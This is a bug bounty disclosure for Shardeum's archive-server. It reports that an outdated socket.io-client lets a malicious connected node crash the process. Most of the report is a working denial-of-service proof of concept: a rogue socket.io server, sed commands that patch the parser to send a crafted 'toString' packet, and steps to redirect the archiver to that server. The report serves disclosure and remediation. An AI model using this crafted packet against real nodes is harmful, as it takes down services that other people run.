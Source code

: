 # Boost \_ Shardeum\_ Ancillaries 34298 - \[Websites and Applications - Medium] archive-server can be killed by connected shardus-instance

## archive-server can be killed by connected shardus-instance

Submitted on Thu Aug 08 2024 15:15:27 GMT-0400 (Atlantic Standard Time) by @riproprip for [Boost | Shardeum: Ancillaries](https://immunefi.com/bounty/shardeum-ancillaries-boost/)

Report ID: #34298

Report type: Websites and Applications

Report severity: Medium

Target: https://github.com/shardeum/archive-server/tree/dev

Impacts:

* Taking down the application/website

### Description

### Brief/Intro

On boot the `archive-server` connects to a randomized `shardus-instance`. This instance has the power to kill the process that runs the archive server.

### Vulnerability Details

Archive-server is using an outdated socket.io-client. The old implementation has issues with specially crafted packets.

Since Archive-server does not do any special error handling the error in the socket.io-client can bubble up "uncatched" and kill the process.

Since the archive-server tries to randomly connect to a shardus-instance, it might not be a terrifying issue. Otoh I saw references in the documentation that archive servers should be rewarded for their service in the future, so there would be incentive to try to kill archive servers that you don't run ...

### Proof of concept

## Prepare

```
apt-get update
apt-get -y install git-core curl build-essential python3 vim
curl -o- https://raw.githubusercontent.com/nvm-sh/nvm/v0.39.7/install.sh | bash
export NVM_DIR="$HOME/.nvm"
[ -s "$NVM_DIR/nvm.sh" ] && \. "$NVM_DIR/nvm.sh"  # This loads nvm
[ -s "$NVM_DIR/bash_completion" ] && \. "$NVM_DIR/bash_completion"  # This loads nvm bash_completion
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
source "$HOME/.cargo/env"
rustup install 1.74.1; rustup default 1.74.1
nvm install 18.16.1; nvm use 18.16.1
npm i -g node-gyp
```

## create and start evil shardus-instance

In one terminal

### Create folder

```
mkdir /tmp/net_attack
cd /tmp/net_attack
```

### save as package.json

```
{
  "dependencies": {
    "engine.io-client": "~3.5.0",
    "express": "^4.19.2",
    "socket.io": "^2.5.1",
    "socket.io-client": "^2.5.0"
  }
}
```

### save as evil-shardus.js

```
const PORT = 3030;
const app = require('express')();
const http = require('http').createServer(app);
const io = require('socket.io')(http, {cors: {origin: "*",methods: ["GET", "POST"]}});

io.on('connection', (socket) => {
        console.log('A user connected', new Date());

        socket.on('ARCHIVER_PUBLIC_KEY', (key) => {
                console.log('ARCHIVER WITH KEY CONNECTED', key);
        });

        setTimeout(() => {
                console.log('killing archiver', new Date());
                socket.emit('doesnt', 'matter'); // this will be overriden by our encoder implementation
        }, 60_000);
});

http.listen(PORT, () => {
  console.log(`Server running on port ${PORT}`);
});
```

### install packages and replace encoder with evil encoder

```
npm install
sed -i 's/var encoding = encodeAsString(obj);/var encoding = encodeAsString(obj); if (obj.type == 2) encoding = '"'"'2[{"toString":"rip"}]'"'"';/' ./node_modules/socket.io-client/node_modules/socket.io-parser/index.js
sed -i 's/var encoding = encodeAsString(obj);/var encoding = encodeAsString(obj); if (obj.type == 2) encoding = '"'"'2[{"toString":"rip"}]'"'"';/' ./node_modules/socket.io-parser/index.js
```

#### run evil shardus instance

```
node evil-shardus.js
```

## run archiver

I could not find another script that made this easy. So just reusing the stuff I had for the other bugs ...

We will reuse the shardeum repo and the `shardus start 10` to run an archiver. But before we run the archiver, we make sure it connects to the evil -shardus.js.

In another terminal

### general setup

```
cd tmp
git clone https://github.com/shardeum/shardeum.git; cd shardeum; git switch dev
npm ci
npm install -g shardus
npm update @shardus/archiver
git apply debug-10-nodes.patch
npm run prepare
```

### make sure that archiver connects to our evil implementation of a shardus-instance

```
sed -i 's/const socketClient = ioclient.connect(`http:\/\/${node\.ip}:${node\.port}`);/const socketClient = ioclient.connect(`http:\/\/${node\.ip}:3030`);/' ./node_modules/@shardus/archiver/build/Data/Data.js
```

### run shardus

We run shardus, and observe our archive server disappear when the evil-shardus terminal prints "killing archiver". (60 second wait in current evil-shardus.js)

```
shardus start 10; 
PID=$(ps -ef | grep "archiver/build/server.js" | tr -s " " | cut -f2 -d" " | head -n1); 
watch -n2 "ps -ef | grep "$PID" | grep -v watch | grep node"
```
